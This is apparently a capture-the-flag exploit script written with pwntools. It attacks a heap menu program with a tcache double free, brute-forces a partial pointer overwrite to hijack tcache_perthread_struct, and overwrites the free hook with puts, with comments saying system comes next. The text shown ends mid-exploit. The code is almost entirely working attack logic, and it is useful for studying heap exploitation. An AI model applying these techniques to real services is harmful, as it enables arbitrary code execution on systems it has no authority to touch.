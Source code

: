 ```py
u32 = lambda d: pwn.u32(d.ljust(4, b"\0")[:4])
u16 = lambda d: pwn.u16(d.ljust(2, b"\0")[:2])
sla = lambda a, b: io.sendlineafter(a, b)
sl = lambda a: io.sendline(a)
recv = lambda: io.recv()
recvn = lambda a: io.recvn(a)
recvu = lambda a, b=False: io.recvuntil(a, b)

def launch():
    l = launch_local
    # l = launch_remote
    l()

def getb(d, a, b):
    a_ = d.find(a)
    return d[a_+len(a):d.find(b, a_)] # returns stuff between a & b

def alloc(size, data):
    sla(b"exit\n", b"1")
    sleep(speed)
    sl(str(size).encode())
    sleep(speed)
    if size == 0:
        return
    sl(data)
    sleep(speed)

def free():
    sla(b"exit\n", b"2")
    sleep(speed)

def quit():
    sla(b"exit\n", b"3")

exe = ELF(file)
libc = ELF("./libc.so.6")

# exploit goes here

def exploit():
    guess = rnd.randint(0, 0xf)
    print("guess: %#x" % guess)
    sleep(speed)

    alloc(2, b"") # double free 0x20 sized chunk (to later hijack tcache_perthread_struct)
    free()
    free()

    hijack_address = (guess << 12) + 0x50
    alloc(2, p16(hijack_address)) # partial overwrite fd with 4 bit bruteforce
    alloc(2, b"") # unused malloc to set tcache entry = fake fd



    payload = flat([ # prepare tcache_perthread_struct overwrite payload
        exe.sym["stderr"], # 0x20, will use to leak libc
        exe.sym["old_free_hook"], # 0x30, will use to overwrite old_free_hook with puts
        exe.sym["old_free_hook"], # 0x40, will use to overwrite old_free_hook with system
    ])
    alloc(0x18, payload) # overwrite tcache_perthread_struct
    
    alloc(0x28, p64(exe.plt["puts"])[:7]) # overwrite free_hook with puts plt
    alloc(1, b"A")
```